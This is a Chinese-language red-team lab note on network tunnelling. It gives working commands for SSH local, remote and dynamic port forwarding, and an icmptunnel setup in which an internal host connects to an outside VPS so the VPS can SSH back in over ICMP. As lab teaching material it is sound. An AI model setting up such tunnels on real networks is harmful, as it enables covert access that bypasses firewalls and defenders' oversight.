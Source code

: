 # 隧道实验

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

## 应用层

### SSH

**参数含义**
```
-C 压缩传输，增加传输的效率
-f 将 SSH 传输放在后台执行
-N 建立静默连接，就是建立了连接
-g 允许远程主机连接本地用于转发端口
-L 本地端口转发
-R 远程端口转发
-D 动态转发
-P 指定 SSH 的端口
```

#### 本地端口转发

将发送给本地的请求通过 ssh 隧道转发给目标端口，我们可以实现访问本地端口来访问目标端口的信息

```bash
ssh -CfNg 用户名@ssh机器IP -L 本地端口:目标主机:目标主机端口
```

![](../../../../../assets/img/Security/RedTeam/后渗透/实验/隧道实验/2.png)

```bash
ssh -fN root@192.168.141.129 -L 8080:127.0.0.1:22
```

![](../../../../../assets/img/Security/RedTeam/后渗透/实验/隧道实验/3.png)

此时访问转发机器的 8080 口，从而转发到目标机器的 22 端口

![](../../../../../assets/img/Security/RedTeam/后渗透/实验/隧道实验/4.png)

---

![](../../../../../assets/img/Security/RedTeam/后渗透/实验/隧道实验/5.png)

如下这个场景,我现在 host3 上起转发
```bash
ssh -fN root@192.168.81.128 -L 8080:0.0.0.0:22
```

这个时候 host3 访问自己的 127.0.0.1:8080 可以到 192.168.81.128

但是 host1 访问 192.168.141.129:8080 是不行的

需要 host2 监听 0.0.0.0
```bash
ssh -fN root@192.168.81.128 -L 0.0.0.0:8080:0.0.0.0:22
```

这样 host1 访问 192.168.141.129:8080 就可以到 192.168.81.128:22

#### 远程端口转发

将远程主机端口的请求通过 ssh 隧道转发给本地主机的端口

```bash
ssh -CfNg user@ssh机器IP -R <远程ip>:<远程端口>:<目标ip>:<目标端口>
```

![](../../../../../assets/img/Security/RedTeam/后渗透/实验/隧道实验/6.png)

在 B 上

```
ssh -CfNg root@1.1.1.1 -R 0.0.0.0:8080:0.0.0.0:22
```

现在 A 访问 127.0.0.1:8080 就可以访问到 192.168.141.148:22 了

不过其他主机访问 A 的 8080 都是访问不了的,这种情况下 ssh 不支持 0.0.0.0 监听

#### 动态端口转发

本地和远程转发只能一对一端口转发，想访问别的端口还需要重新设定转发，所以有了动态转发

动态端口转发是只绑定一个本地端口，目标地址端口不固定，而是根据我们的请求决定。其实在这里 SSH 就是创建了个 SOCKS 代理服务
```
ssh -CfNg 用户名@ssh机器IP -D <本地ip>:<本地端口>
```

![](../../../../../assets/img/Security/RedTeam/后渗透/实验/隧道实验/7.png)

在 host1 上

```
ssh -CfNg root@1.1.1.1 -D 127.0.0.1:1080
```

这时候 host1 主机的 1080 就是个 socks 代理，浏览器设置代理或设置全局代理后，就可以访问 host3、host4 内网主机了。

---

## 网络层

### ICMP

#### icmptunnel

拓扑环境如下：

![](../../../../../assets/img/Security/RedTeam/后渗透/实验/隧道实验/1.png)

我这里就假设 vps 为 1.1.1.1 了

先配置环境,vps和内网机器上都安装上 icmptunnel,步骤是一样的
```bash
git clone https://github.com/DhavalKapil/icmptunnel.git
cd icmptunnel && make
```

然后在2台机器上都禁用 icmp
```bash
sysctl -w net.ipv4.icmp_echo_ignore_all=1
echo 1 > /proc/sys/net/ipv4/icmp_echo_ignore_all
```

vps 作为主机,监听
```bash
./icmptunnel -s
ctrl-z
bg
```

这时候会创建一个 tun0 ,给他分配一个内网地址
```
ifconfig tun0 10.10.1.1 netmask 255.255.255.0
```

然后再内网机器上启动
```
./icmptunnel 1.1.1.1
ctrl-z
bg
```

同样的 tun0 ,给他分配一个内网地址
```
ifconfig tun0 10.10.1.2 netmask 255.255.255.0
```

这个时候可以在 vps 上测试
```
ssh root@10.10.1.2
```

速度会有点慢,如果没有出错就可以连接了

